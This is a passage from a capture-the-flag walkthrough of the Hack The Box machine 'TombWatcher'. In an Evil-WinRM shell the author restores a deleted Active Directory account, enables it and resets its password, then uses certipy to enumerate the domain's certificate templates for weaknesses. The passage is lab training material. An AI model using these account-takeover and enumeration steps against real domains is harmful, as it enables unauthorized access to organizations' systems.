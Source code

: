 ```powershell
ObjectGUID        : c1f1f0fe-df9c-494c-bf05-0679e181b358

Deleted           : True
DistinguishedName : CN=cert_admin\0ADEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf,CN=Deleted Objects,DC=tombwatcher,DC=htb
Name              : cert_admin
                    DEL:938182c3-bf0b-410a-9aaa-45c8e1a02ebf
ObjectClass       : user
ObjectGUID        : 938182c3-bf0b-410a-9aaa-45c8e1a02ebf



*Evil-WinRM* PS C:\Users\john\Documents> Restore-ADObject -Identity 938182c3-bf0b-410a-9aaa-45c8e1a02ebf
*Evil-WinRM* PS C:\Users\john\Documents> Enable-ADAccount -Identity cert_admin
*Evil-WinRM* PS C:\Users\john\Documents> Set-ADAccountPassword -Identity cert_admin -Reset -NewPassword (ConvertTo-SecureString "Hacker123!" -AsPlainText -Force)
```

Now we run `certipy-ad` to find vulnerable certificates:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TombWatcher/root]
└─$ ❯ certipy find -u cert_admin -p "Hacker123!" -dc-ip 10.10.11.72 -vulnerable 
Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Finding issuance policies
[*] Found 13 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'tombwatcher-CA-1' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'tombwatcher-CA-1'
[*] Checking web enrollment for CA 'tombwatcher-CA-1' @ 'DC01.tombwatcher.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Saving text output to '20250923131902_Certipy.txt'
[*] Wrote text output to '20250923131902_Certipy.txt'
[*] Saving JSON output to '20250923131902_Certipy.json'
[*] Wrote JSON output to '20250923131902_Certipy.json'
```

We can see it:

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/TombWatcher/root]
└─$ cat 20250923131902_Certipy.txt 
Certificate Authorities
  0
    CA Name                             : tombwatcher-CA-1
    DNS Name                            : DC01.tombwatcher.htb
    Certificate Subject                 : CN=tombwatcher-CA-1, DC=tombwatcher, DC=htb
    Certificate Serial Number           : 3428A7FC52C310B2460F8440AA8327AC
    Certificate Validity Start          : 2024-11-16 00:47:48+00:00
    Certificate Validity End            : 2123-11-16 00:57:48+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
```